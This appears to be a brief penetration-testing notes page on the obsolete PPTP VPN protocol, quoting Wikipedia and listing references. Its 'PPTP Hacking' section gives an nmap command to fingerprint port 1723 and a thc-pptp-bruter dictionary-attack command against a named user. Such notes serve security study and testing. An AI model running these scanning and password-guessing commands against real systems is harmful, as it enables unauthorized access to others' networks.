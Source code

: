 # PPTP

[Wikipedia - PPTP](https://en.wikipedia.org/wiki/Point-to-Point_Tunneling_Protocol) *"The Point-to-Point Tunneling Protocol (PPTP) is an obsolete method for implementing [virtual private networks](https://en.wikipedia.org/wiki/Virtual_private_network "Virtual private network"). PPTP has many well known security issues."*

## PPTP Hacking 

Identifying PPTP, it listens on TCP: 1723; [Kali Tools - thc-pptp-bruter](https://www.kali.org/tools/thc-pptp-bruter/)
```bash
# NMAP PPTP Fingerprint:
# Original: nmap â€“Pn -sV -p 1723 TARGET(S) 
# nmap -sV runs `pptp-version`
nmap -Pn -sV -p 1723 $submask/$mask  

# PPTP Dictionary Attack
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```
## References

[Wikipedia - PPTP](https://en.wikipedia.org/wiki/Point-to-Point_Tunneling_Protocol)
[nmap scripts: pptp-version](https://nmap.org/nsedoc/scripts/pptp-version.html)
[Kali Tools - thc-pptp-bruter](https://www.kali.org/tools/thc-pptp-bruter/)